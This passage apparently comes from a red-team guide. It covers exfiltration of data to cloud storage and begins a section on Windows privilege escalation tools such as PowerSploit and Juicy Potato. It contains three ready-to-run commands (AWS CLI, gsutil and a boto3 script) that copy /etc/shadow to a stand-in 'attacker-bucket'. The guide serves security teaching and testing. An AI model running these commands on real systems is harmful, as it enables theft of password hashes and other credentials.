     Command Examples:

        Using AWS CLI:

        bash

aws s3 cp /etc/shadow s3://attacker-bucket/

Using gsutil:

bash

gsutil cp /etc/shadow gs://attacker-bucket/

Python Script for AWS S3:

python

        import boto3

        s3 = boto3.client('s3')
        s3.upload_file('/etc/shadow', 'attacker-bucket', 'shadow')

    Recommendations:
        Encrypt files before uploading to cloud storage.
        Use cloud service access controls to limit exposure.

Conclusion

Data exfiltration techniques vary widely across Windows and Linux environments. Attackers can exploit numerous methods, ranging from simple file transfers to sophisticated tunneling protocols, to extract sensitive information from compromised systems. Red Teams must be well-versed in these techniques to effectively simulate advanced persistent threats (APTs) and help organizations bolster their security defenses.

Regularly testing and updating data exfiltration methods is essential to stay ahead of evolving defensive capabilities. By understanding and applying these techniques, Red Teams can provide valuable insights into an organization's data security posture, identify potential weaknesses, and recommend improvements to safeguard critical information from unauthorized access and extraction.

Section 5: Post-Exploitation Tools and Techniques for Windows

Post-exploitation refers to the phase after an attacker has successfully breached a system, during which they consolidate access, conduct further reconnaissance, escalate privileges, and prepare for the next phases of the attack. Understanding post-exploitation techniques is critical for Red Teams, as it enables them to simulate realistic attack scenarios and assess the robustness of an organization's defenses. Below, we explore various post-exploitation tools and techniques tailored for Windows environments.
Post-Exploitation Tools and Techniques for Windows
A. Privilege Escalation

Description: After gaining initial access to a system, attackers often find themselves with limited privileges. The next logical step is to escalate those privileges to gain full administrative rights, which allow unrestricted access to system resources.

    Common Tools and Techniques:
        Windows Exploit Suggester: This tool provides a list of potential exploits that can be used based on the system's missing patches.
        PowerSploit: A collection of PowerShell scripts that include various privilege escalation modules.
        Juicy Potato/Rotten Potato: Exploits the COM and RPC services on Windows for privilege escalation.
        SharpUp: A C# tool that performs various checks on the system to identify privilege escalation opportunities.
